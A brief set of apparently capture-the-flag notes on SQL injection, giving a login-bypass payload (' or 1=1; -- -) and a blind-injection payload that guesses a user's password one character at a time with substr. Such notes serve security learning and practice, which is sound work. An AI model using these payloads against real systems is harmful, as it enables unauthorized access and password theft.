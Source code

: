 Basics
`'or 1=1; -- -`

Bling guessing
goal: guess one char at a time

Step 1 finder a username: picoctf
Step 2 get the password
`' or username='picoctf' and (select substr(password, 1, 1))='a`
